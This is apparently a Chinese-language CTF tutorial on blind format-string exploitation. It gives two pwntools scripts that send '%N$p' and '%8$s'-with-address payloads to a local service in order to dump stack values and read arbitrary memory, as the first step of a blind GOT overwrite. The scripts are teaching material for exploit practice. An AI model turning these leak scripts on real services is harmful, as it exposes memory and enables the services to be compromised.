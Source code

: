 **确认程序位数**

通过NC连接

根据 %p 输出内存宽度 可以看出位数



模糊泄漏方法

```python
from pwn import *
context.log_level = 'error'


def leak(payload):
    sh = remote('127.0.0.1', 9999)
    sh.sendline(payload)
    data = sh.recvuntil('\n', drop=True)
    if data.startswith('0x'):
        print p64(int(data, 16))
    sh.close()


i = 1
while 1:
    payload = '%{}$p'.format(i)  逐个泄漏来获取数据
    leak(payload)
    i += 1
```



盲打got方法

确认程序位数：通过nc 连接后 %p 来判断

确定偏移： aaa%p%p%p 等简单方法来做

进行内容泄漏：

```python
##coding=utf8
from pwn import *

##context.log_level = 'debug'
ip = "127.0.0.1"
port = 9999


def leak(addr):
    # leak addr for three times
    num = 0
    while num < 3:
        try:
            print 'leak addr: ' + hex(addr)
            sh = remote(ip, port)
            payload = '%00008$s' + 'STARTEND' + p64(addr)
            # 说明有\n，出现新的一行
            if '\x0a' in payload:
                return None
            sh.sendline(payload)
            data = sh.recvuntil('STARTEND', drop=True)
            sh.close()
            return data
        except Exception:
            num += 1
            continue
    return None

```